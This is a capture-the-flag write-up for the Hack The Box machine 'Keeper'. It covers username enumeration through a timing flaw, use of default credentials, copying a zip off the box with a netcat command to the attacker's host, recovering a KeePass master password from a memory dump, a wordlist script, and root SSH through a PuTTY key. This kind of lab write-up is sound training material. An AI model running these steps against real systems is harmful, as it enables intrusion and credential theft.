
# Summary
[Keeper](https://app.hackthebox.com/machines/Keeper) starts out with either guessing default credentials, or using timing attack CVE that reveals a valid username. Some Google-fu can be used to find the default password. These credentials grant access to the admin panel, and also a list of users. One of these users has a note containg a password, which can then be used to get an SSH shell. This user has  `.zip` file in their home folder, containg a KeePass database file, as well as a memory dump. Exploiting a recent vulnerability, most of the database password can be retrieved. Tthe rest can be revealed using either some simple scripting, or some help from ChatGPT. With access to the KeePass database file, a PuTTY SSH key can be found in the notes for one of the entries, which can be used to gain root access.
## Nmap
I start off with an `nmap` scan. I first scan all ports in case anything is running on uncommon ports, then scan the open ports with `-sC` to run default enumeration scripts, `-sV` to enumerate versions, and `-v` for verbose mode, to list  ports as they're found.
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nothing too special in Nmap. Nmap finds 2 ports open, SSH on port 22, and HTTP on port 80. Browsing to port 80, I find an empty page with just the message to put in support tickets at `tickets.keeper.htb/rt`
### HTTP Port 80


I add `tickets.keeper.htb` and `keeper.htb` to my `/etc/hosts` file, and then click the link to visit `http://tickets.keeper.htb/rt`. I land on a login page.
The first thing I notice is the age. It looks like it's a login form for a software called "Request Tracker", the version is 4.4.4 and the date is 2019, which is quite awhile ago
### Request Tracker Timing Attack



Searching for *"request tracker 4.4.4 exploit"*, I find [CVE-2021-38562](https://nvd.nist.gov/vuln/detail/CVE-2021-38562), which is for a timing attack leading to information disclosure. In this case, it can be used to enumerate usernames. The way this works is that if an invalid username is given, the authorization check will fail immediately and return a login failed. If a valid username is given, the server will then check the password by hashing the given password and comparing it to the correct password hash for the given user. This takes longer then just sending an error for an invalid username. Valid usernames can therefore be enumerated by checking the time it takes to get a response.

[This was patched](https://github.com/bestpractical/rt/commit/70749bb66cb13dd70bd53340c371038a5f3ca57c) by having the password hash always be checked.

To test this, I capture a login request in Burp and send it to repeater. I give it an invalid username and send the request. The request always takes between 95-99 milliseconds to come back.



However when I give a valid username, the response takes significantly longer.



So now I have a valid username. Before spraying and praying, I search for the [Request Tracker documentation](https://docs.bestpractical.com/rt/5.0.5/README.html), and find in the README, the default credentials. I give them a try, and it lets me in!
#### *Side Note:*
*To be fair, these are extremely easy to guess default credentials, and guessing would have actually been a valid strategy here, but I wanted to show the path to go down to find the credentials on your own.*
### Admin Panel > User Shell
With admin credentials in hand, I start just poking around the site. I eventually find a list of users in *Admin>Users*



Clicking on `lnorgaard` I get taken to a page with info about that user, and in the comments section is the initial password this user was given.



I try these credentials for SSH, and get access!
### KeePass DB File
Once on the box, in `lnorgaard's` home folder, is a file called `RT30000.zip`. Looks interesting. I unzip it into `/dev/shm`. Inside are 2 files, `KeePassDumpFull.dmp` and  `passcodes.kdbx`. Both sound interesting. I exfil the `.zip` file back to my attack machine for further investigation.
```bash
# On remote machine
nc 10.10.15.34 9001 < RT30000.zip

# On my machine
nc -lvnp 9001 > RT3000.zip
```
Running `file` on `passcodes.kdbx`, I see that it's a Keepass 2.X database
```bash
file passcodes.kdbx                        
passcodes.kdbx: Keepass password database 2.x KDBX
```
I am able to extract the hash of this file using `keepass2john`, however attempts to crack this hash are unsuccessful. 

I decide to check what the current version of Keepass is, maybe if this database format is old, there will be a public exploit for it. Doing some research, I find that the current version is 4.X. I search for *"keepass kdbx 2.x exploit"* and find [this github repo](https://github.com/vdohney/keepass-password-dumper/tree/main) for [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784). It states that *"In KeePass 2.x before 2.54, it is possible to recover the cleartext master password from a memory dump"*, seeing as we have that `.dmp` file, this looks promising.

The github PoC is written for Windows, I attempt to get it working in my Linux VM, but give up and fire up my Windows VM.

Before switching over to Windows, I start an SMB share on Linux so I can easily transfer over any files I need.
```bash
impacket-smbserver -smb2support -username <USERNAME> -password <PASSWORD> kali $(pwd)
```
Once on Windows, I download the github repo. I then install the .NET SDK as recommended. I then connect to my SMB share by right-clicking in file explorer and hitting *"Add a network location"*, and entering my Linux IP address, share name, and credentials. I copy over the `.dmp` file and the `.kdbx` file for good measure. I then run the PoC. I get an error however that I don't have the proper .NET runtime installed, and handy link to go grab it. So I do, and rerun the PoC, this time it works!
```powershell
C:\Users\Clayton\Desktop\workdir\keepass-password-dumper-main\keepass-password-dumper-main > dotnet run KeePassDumpFull.dmp
<...SNIP...>
App: C:\Users\Clayton\Desktop\workdir\keepass-password-dumper-main\keepass-password-dumper-main\bin\Debug\net7.0\keepass_password_dumper.exe
Architecture: x64
Framework: 'Microsoft.NETCore.App', version '7.0.0' (x64)
.NET location: C:\Program Files\dotnet

The following frameworks were found:
  6.0.21 at [C:\Program Files\dotnet\shared\Microsoft.NETCore.App]
  8.0.0 at [C:\Program Files\dotnet\shared\Microsoft.NETCore.App]

Learn more:
https://aka.ms/dotnet/app-launch-failed

To install missing framework, download:
https://aka.ms/dotnet-core-applaunch?framework=Microsoft.NETCore.App&framework_version=7.0.0&arch=x64&rid=win-x64&os=win10
```
The exploit successfully puts together most of the password. It can't find the first character, and it's narrowed down the second character.
```
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```
Interestingly it's got some some Danish characters in it! This could make putting it back together more interesting.

Now, there's a cheeky little way to do this. The password to me, looks like some kind of phrase, "--dgrød med fløde". I ask ChatGPT what language this is, and what the completed phrase would be, and this works and it gives me the correct phrase and therefore password.


I love this way of getting the password, as it strays away from the "must script everything" mentality that I can often get into, and relies more on being creative with my resources. That being said, how *could* this be done with scripting? What if the password was just a random string and not a convenient Danish tongue twister?

I need to create a script to generate a wordlist of every possible combination this password could be. Any Danish character, number, or symbol in the first spot, and a much smaller selection in the second. Once I have that wordlist, I can run `john` against the hash I got earlier. This is likely why `john` failed, because the password contains Danish characters. This is the script I came up with:
```python
#!/usr/bin/python3

# List of Danish alphabet characters in both uppercase and lowercase
danish_letters = list("ABCDEFGHIJKLMNOPQRSTUVWXYZÆØÅ") + list("abcdefghijklmnopqrstuvwxyzæøå")

# Numbers and special characters
numbers_and_specials = list("0123456789") + list('!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~')

# All characters for the first position
all_chars = danish_letters + numbers_and_specials

# List of characters to be paired with the characters for the first position
special_chars = ["ø", "Ï", ",", "l", "`", "-", "'", "]", "§", "A", "I", ":", "=", "_", "c", "M"]

# Append phrase
append_phrase = "dgrød med fløde"

# Generate the wordlist
wordlist = [first_char + second_char + append_phrase for first_char in all_chars for second_char in special_chars]

# Print the wordlist
for word in wordlist:
    print(word)
```
This generates me a wordlist of 1,600 passwords. I use this with `john`, and the password cracks!


With this, I can access the Keepass database in the `.kdbx` file.
```bash
# Install command line tool for Keepass
sudo nala install kpcli -y

# Open .kdbx file
kpcli --kdb=passcodes.kdbx 
Provide the master password: *************************
```
### PuTTY SSH Key > Root Shell
Looking through the database, I find 2 entries in `Network`. Running `show` on `Ticketing System` looks pretty standard. Pro tip, the `password` line looks like it's censored and just a red bar, but it's not. That's just a tactic to prevent shoulder surfing. You can copy and paste that red line and get the password.



The `keeper.htb` entry is more interesintg. It does have a password, and I try it out everywhere and get no dice. But in the notes section is what looks like a whole PuTTY SSH key!



And considering the username in Keepass is `root`, this seems very high value.

To use this, I could either install PuTTY and import the key, or I could convert the key into an OpenSSH key. I install `putty-tools` to get access to PuTTYgen. I write the PuTTY key to a `.ppk` file (for putty). Copy and pasting out of Keepass cli is kind of funky, so I give it to ChatGPT to fix the formatting. I then use `puttygen` to convert the key to an OpenSSH key. `-O` to specify the output key type, `-o` for the output keyfile name.
```bash
puttygen putty_ssh.ppk -O private-openssh -o putty_rsa

# Don't forget to set proper permissions on the ssh key
chmod 600 putty_rsa
```
With this, I try SSHing in to the box as root, and it works! Very cool.
```bash
┌──(kali㉿Kali)──[0:44:24]──[~/htb/Machines/Keeper]
└─$ ssh -i putty_rsa root@10.129.57.205    

<...SNIP...>

root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)

root@keeper:~# cat /root/root.txt
fd1628--------------------------
```